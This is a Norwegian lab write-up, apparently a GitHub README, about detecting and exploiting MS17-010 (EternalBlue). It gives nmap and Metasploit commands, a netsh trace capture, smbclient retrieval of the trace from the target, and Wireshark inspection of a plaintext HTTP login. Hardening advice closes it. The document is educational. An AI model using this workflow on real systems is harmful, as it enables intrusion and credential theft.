 # MS17-010 (EternalBlue) + nettverksspor — lab

Fiktiv, lukket lab der jeg:
1) påviser **MS17-010** (EternalBlue) mot en Windows-vert,
2) demonstrerer exploit-flyten i Metasploit,
3) samler **Windows nettverksspor** med `netsh trace`,
4) eksporterer/konverterer sporet og verifiserer i **Wireshark** at en HTTP-innlogging er synlig i klartekst.

> **Etikk:** Kun lab/demo i eget miljø. Ikke test mot systemer du ikke eier eller har eksplisitt tillatelse til. Sladd brukernavn/passord, tokens og interne IP-er før publisering.

---

## Mål
- Verifisere sårbar **SMBv1 / MS17-010** på målmaskin.
- Vise exploit-arbeidsflyt (funn → modulvalg → kjøring) i Metasploit.
- Samle og hente ut **nettverksspor** fra Windows (`.etl`) og konvertere til **pcap/pcapng**.
- Dokumentere i **Wireshark** at HTTP-innlogging fanges når TLS ikke brukes.

## Laboppsett (eksempel)
- **Angriper:** Kali Linux  
- **Mål:** Windows-vert med SMBv1 (sårbar for MS17-010)  
- **Bruker-VM:** Windows-VM som besøker intern webapp  
- **Verktøy:** Nmap, Metasploit, `netsh trace`, etl2pcapng, editcap, Wireshark

---

## Kontekst
**Angriper-IP**
![attacker ip](images/attacker-ip.png)

**Webapp – landingsside**
![web home](images/webapp-home.png)

**Webapp – innlogget oversikt**
![web messages](images/webapp-messages.png)

**Windows (mål/klient) – oversikt**
![windows admin](images/windows-admin.png)

---

## A) Sårbarhet og utnyttelse

**Nmap MS17-010 (NSE) – VULNERABLE**
```bash
nmap --script smb-vuln* -p 445 192.168.x.x
```
![nmap ms17-010](images/nmap-ms17-010.png)

**Metasploit i gang + modulvalg**
```bash
msfconsole
search eternalblue
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.x.x
```
![msf banner](images/msfconsole-banner.png)  
![msf search](images/msf-search-eternalblue.png)

> *Hvis du har skjermbilde av selve «session opened», kan det legges inn her senere som `images/msf-eb-run-success.png`.*

---

## B) Nettverksspor på Windows (innebygd)

**Start sporing**
```cmd
netsh trace start capture=yes tracefile=C:\50309\net_trc.etl level=verbose
```
![trace start](images/netsh-trace-start.png)

**Stopp sporing**
```cmd
netsh trace stop
```
![trace stop](images/netsh-trace-stop.png)

---

## C) Eksfil og konvertering

**Hent ut `.etl` fra Windows**
- Eksempel via SMB fra Kali:
```bash
smbclient //192.168.x.x/50309 -U Administrator
get net_trc.etl
```
![trace exfil](images/trace-exfil.png)

**Konverter `.etl` → `.pcapng` (Windows etl2pcapng)**
```powershell
.\etl2pcapng.exe C:\...\net_trc.etl C:\...\net_trc.pcapng
```
![etl2pcapng](images/etl2pcapng-convert.png)

**(Valgfritt) Konverter `.pcapng` → `.pcap` for kompatibilitet**
```bash
editcap -F pcap ~/Desktop/net_trc.pcapng ~/Desktop/net_trc.pcap
```
![editcap](images/editcap-convert.png)

---

## D) Analyse i Wireshark

Filtrer på HTTP og finn POST-forespørsel som inneholder innloggingsdata (demo uten TLS):
![wireshark creds](images/wireshark-credentials.png)

---

## Hvorfor dette fungerer (kort)
- **MS17-010 / EternalBlue** misbruker en sårbarhet i SMBv1 for fjernkodekjøring.  
- `netsh trace` samler rå nettverkshendelser på Windows i `.etl`. Med **etl2pcapng** og **editcap** kan vi åpne sporet i **Wireshark** og observere **HTTP POST**-innhold når trafikken ikke er kryptert.

## Forsvar (kort)
- Deaktiver **SMBv1** og patch **MS17-010**.  
- Segmenter nettverk og begrens SMB til nødvendige soner.  
- Tving **HTTPS**; benytt **EDR/IDS** og overvåk mistenkelig SMB-trafikk.  
- Regelmessig sårbarhetsskanning og patchhygiene.

## Lisens
MIT
